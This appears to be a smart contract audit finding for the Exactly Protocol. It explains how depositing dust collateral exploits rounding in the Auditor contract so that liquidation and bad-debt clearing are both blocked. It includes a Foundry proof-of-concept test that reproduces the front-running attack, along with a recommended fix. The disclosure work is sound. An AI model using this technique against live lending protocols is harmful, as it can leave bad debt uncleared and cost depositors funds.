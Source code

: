 Agreeable Lemonade Ostrich

medium

# Bad Debt Can Be Prevented from being Cleared Leading to Protocol Insolvency

## Summary

- a malicious user to prevent the clearing of bad debt within the Exactly Protocol. This can be achieved by maintaining a minimal amount of collateral in a market, exploiting rounding down in smart contract functions, and effectively rendering the debt unliquidatable and unclearable.

## Vulnerability Detail

The vulnerability arises from two functions in the `Auditor` contract:

1. **`checkLiquidation` Function**:
   - The function calculates the amount that can be repaid (`maxRepayAssets`). If the collateral is a very small amount (dust), the division operation results in zero.

```js
   // Auditor.sol
   function checkLiquidation(...) external view returns (uint256 maxRepayAssets) {
   //...
   maxRepayAssets = Math.min(
       baseAmount.mulDivUp(10 ** markets[seizeMarket].decimals, priceCollateral).mulWadUp(
           1e18 + memIncentive.liquidator + memIncentive.lenders
       ),
       //....
   );
   //...
  }
```

- notice that the `maxRepayAssets` is the `baseAmount` is the value of collateral of the borrower being liquidated ( `seizeAvailable`) .
- The `liquidate` function in the `Market` contract will revert if `maxAssets` is zero due to the `ZeroRepay` check, preventing the liquidation from occurring.

```js
//Market
 if (maxRepayAssets == 0) revert ZeroRepay();
```

- even if  `maxRepayAssets` doesn't round to zero and not revert, the tx will revert in the next step when attempt to seize assets :

  ```js
  // Market
  >> (uint256 lendersAssets, uint256 seizeAssets) = auditor.calculateSeize(this, seizeMarket, borrower, repaidAssets);
  // Auditor : this will round to zero with small amounts :
   >>  seizeAssets = Math.min(baseAmount.mulDivUp(10 ** markets[seizeMarket].decimals, priceCollateral).mulWadUp(
      1e18 + memIncentive.liquidator + memIncentive.lenders
    ),

    seizeMarket.maxWithdraw(borrower)
  );

   // Market :
   >>  if (assets == 0) revert ZeroWithdraw();

  ```

- so liquidation is not possible for dust amounts .

2. **`handleBadDebt` Function**:
   - The function is designed to clear bad debt by checking if the account has any collateral. If the collateral is minimal, the multiplication by the price and adjust factor may not round to zero(specially for tokens with less decimals then 1e18). This results in the function returning early without clearing the bad debt.
   ```js
   if (assets.mulDivDown(assetPrice(m.priceFeed), 10 ** m.decimals).mulWadDown(m.adjustFactor) > 0) return;
   ```
   - A malicious user can deposit a tiny amount of collateral to prevent the bad debt from being cleared, as the check for collateral will pass, and the function will not proceed to clear the debt.

- This vulnerability can be exploited by a malicious user who can deposit a small amount of collateral to an undercollateralized borrower since anyone can deposit any amount to anyone, preventing liquidation and bad debt clearance, and potentially causing insolvency within the protocol as the `earningsAccumulator` continues to distribute assets based on incorrect total asset values.
- Malicious user can be a depositor who do that  motivated by potential gains from the `earningsAccumulator` to be distributed to depositors instead for clearing bad debts.

### POC :

- add this test to see how clearning bad debts can be prevented ,
  > `NOTE` : in this case we have only two markets , so a liquidator can liquidate the whole amount at once by setting `maxAssets = type(uint).max`,in real the malicious user can always front-run this tx , to deposit dust for that borrower in diffrent market.

```js
   function set_condition() internal {
    vm.prank(ALICE);
   marketWETH.approve(address(this), type(uint256).max);

   market.deposit(1.15 ether, address(this));
   auditor.enterMarket(market);
   marketWETH.deposit(50_000 ether, ALICE);
   marketWETH.setPenaltyRate(2e11);
   daiPriceFeed.setPrice(5000e18);
   auditor.setLiquidationIncentive(Auditor.LiquidationIncentive(0.1e18, 0));

   // distribute earnings to accumulator
   marketWETH.setBackupFeeRate(1e18);
   irm = MockInterestRateModel(address(new MockBorrowRate(1e18)));
   marketWETH.setInterestRateModel(InterestRateModel(address(irm)));
   marketWETH.borrowAtMaturity(FixedLib.INTERVAL, 15_000 ether, 30_000 ether, ALICE, ALICE);
   marketWETH.depositAtMaturity(FixedLib.INTERVAL, 15_000 ether, 15_000 ether, ALICE);

   irm.setRate(0);
   for (uint256 i = 1; i <= 3; i++) {
     marketWETH.borrowAtMaturity(FixedLib.INTERVAL, 1000 ether, 1000 ether, address(this), address(this));
   }
   daiPriceFeed.setPrice(99e18);

   vm.warp(FixedLib.INTERVAL * 3 + 182 days + 123 minutes + 10 seconds);

   weth.mint(BOB, 1_000_000 ether);
   vm.prank(BOB);
   marketWETH.liquidate(address(this), 103_499_999_999_999_999_800, market);
   assertEq(market.maxWithdraw(address(this)), 1);
 }
 function test_dosClearingDebt() external {
   set_condition();
   // no we have this contract have badDebt and only 1 collateral :
   // now we can't liquidate this user :
   daiPriceFeed.setPrice(5e18);
   vm.expectRevert(ZeroWithdraw.selector);
   vm.prank(BOB);
   marketWETH.liquidate(address(this), type(uint256).max, market);

   // try clearing debt of this contract :
   auditor.handleBadDebt(address(this));
   // @note : here if we see the bad debt is still :
   (uint256 collateral1, uint256 debt1) =
     auditor.accountLiquidity(address(this), Market(address(0)), 0);
         assertEq(debt1, 16_932_060_000_000_000_000_225);
   assertEq(collateral1, 4);
   // @note :that even if the price decrease more to 0.1e18 per day , so now we should be able to clear badDebt cause when we multiply
   // by adjusted factor this will round to zero ,a malicious user can always deposit a slight amount as collateral to round to zero :

   //1. first notice that the debt here should be cleared :
   daiPriceFeed.setPrice(1e18);
   uint256 stateBefore = vm.snapshot();

   auditor.handleBadDebt(address(this));
   // @note : here if we see the bad debt is still :
   (uint256 collateral2, uint256 debt2) = auditor.accountLiquidity(address(this), Market(address(0)), 0);
   assertEq(debt2, 0);
   assertEq(collateral2, 0);
   // let's front run it :
   vm.revertTo(stateBefore);
   front_run();
   // no again bob not able to liquidate this borrower (even without an incentive cause the gas cost will always be more then the seize amount) :
   vm.expectRevert(ZeroWithdraw.selector);
   vm.prank(BOB);
   marketWETH.liquidate(address(this), type(uint256).max, market);
   // also we can't handle bad debt because the user still have collateral :
   auditor.handleBadDebt(address(this));
   // @note : here if we see the bad debt is still :
   (uint256 collateral3, uint256 debt3) = auditor.accountLiquidity(address(this), Market(address(0)), 0);
   assertEq(debt3, 16_932_060_000_000_000_000_225);
   assertEq(collateral3, 4);
 }

 function front_run() internal {
   //deposit a tiny amount :
   market.deposit(4, address(this));
 }

```

## Impact
- If bad debt is not cleared, the protocol will distribute non-existent assets which lead to Insolvency issue .
-  Dust collateral leads to zero maxRepayAssets, causing liquidation transactions to revert and allowing undercollateralized positions to persist.
- this also could trigger a cascade of withdrawals as users seek to redeem their deposits before the pool's assets are depleted.

## Code Snippet
- https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/8f6ef1b0868d3ea3a98a5ab7e8b3a164857681d7/protocol/contracts/Market.sol#L545
- https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/8f6ef1b0868d3ea3a98a5ab7e8b3a164857681d7/protocol/contracts/Auditor.sol#L195
- https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/8f6ef1b0868d3ea3a98a5ab7e8b3a164857681d7/protocol/contracts/Auditor.sol#L273
## Tool used

Manual Review

## Recommendation
 - Introduce a minimum collateral threshold for each market based on the underlying asset to prevent dust collateral. Modify liquidation logic to disallow leaving behind collateral below this minimum, ensuring all debts are liquidatable and clearable.
